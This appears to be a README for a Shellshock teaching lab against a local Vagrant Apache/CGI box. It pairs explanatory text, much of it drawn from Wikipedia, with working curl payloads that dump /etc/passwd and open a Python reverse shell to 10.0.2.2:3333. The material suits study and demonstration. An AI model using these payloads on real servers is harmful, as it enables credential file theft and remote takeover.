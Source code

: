 # Getting started on demoing a Shellshock vulnerability: 

## Setup
  1. Set up a vagrant box using this vagrant file. This will install Apache and forward to port 8080.. 
  2. Create a cgi file in /usr/lib/cgi-bin. It can be as simple as html content type "hello world."  
  3. Test the following vulnerabilities against "http://localhost:8080/cgi-bin/some_file_of_your_choice.sh" 


## Demoing the vulnerability
### To test via the command line: 

```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```bash

(If you see "vulnerable" you need to update bash. Otherwise, you should be good to go.)


#### Via curl: 

#### To just echo data:

```bash
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; echo 'hi world of exploits'" http://localhost:8080/cgi-bin/shellshock_test.sh
```bash

#### To copy passwords: 
```bash
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:8080/cgi-bin/shellshock_test.sh
```bash

#### To create a reverse shell:
```bash
curl -H "UserAgent: () { :; }; /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.0.2.2\",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" http://localhost:8080/cgi-bin/shellshock_test.sh
```bash


## More information about Shellshock: 
Source: https://en.wikipedia.org/wiki/Shell_shock

This is a major vulnerability that occurs when specific characters are included as part of a variable definition in Bash.

Function definitions are exported by encoding them within the environment variable list as variables whose values begin with parentheses ("()") followed by a function definition. 

If the characters "{ :;};" are included as the function definition, any arbitrary code that is inserted AFTER that definition is processed. This isn't supposed to happen.




### Scale of the problem: 

It looks like basically every version of Bash through version 4.3 is affected by this vulnerability.


### Why is CGI vulnurable? 

The Common Gateway Interface (CGI) vector (an interface between a web server and executables that produce dynamic content) has received the bulk of the focus from attackers thus far. However, the reach of the BASH Shellshock bug doesn’t stop at web servers. Any application that relies on user-controlled data to set OS-level environment variables and then invokes the shell from that same context can trigger the vulnerability. In other words, web applications relying on a specific type of user input can be manipulated to make clients (i.e., consumers) vulnerable to attack. 

Because CGI relies on environment variables set in the header which are later interpreted to generate dynamic content, it is vulnerable to this kind of attack. 

### More about Bash: 

In Unix-based operating systems, and in other operating systems that Bash supports, each running program has its own list of name/value pairs called environment variables. When one program starts another program, it provides an initial list of environment variables for the new program.[21]Separately from these, Bash also maintains an internal list of functions, which are named scripts that can be executed from within the program.[22]Since Bash operates both as a command interpreter and as a command, it is possible to execute Bash from within itself. When this happens, the original instance can export environment variables and function definitions into the new instance.[23] Function definitions are exported by encoding them within the environment variable list as variables whose values begin with parentheses ("()") followed by a function definition. The new instance of Bash, upon starting, scans its environment variable list for values in this format and converts them back into internal functions. It performs this conversion by creating a fragment of code from the value and executing it, thereby creating the function "on-the-fly", but affected versions do not verify that the fragment is a valid function definition.[24] Therefore, given the opportunity to execute Bash with a chosen value in its environment variable list, an attacker can execute arbitrary commands or exploit other bugs that may exist in Bash's command interpreter.

When a web server uses the Common Gateway Interface (CGI) to handle a document request, it passes various details of the request to a handler program in the environment variable list. For example, the variable HTTP_USER_AGENT has a value that, in normal usage, identifies the program sending the request. If the request handler is a Bash script, or if it executes one for example using the system(3) call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted server request.[6]
Security documentation for the widely used Apache web server states: "CGI scripts can ... be extremely dangerous if they are not carefully checked."[29] and other methods of handling web server requests are often used. There are a number of online services which attempt to test the vulnerability against web servers exposed to the Internet.
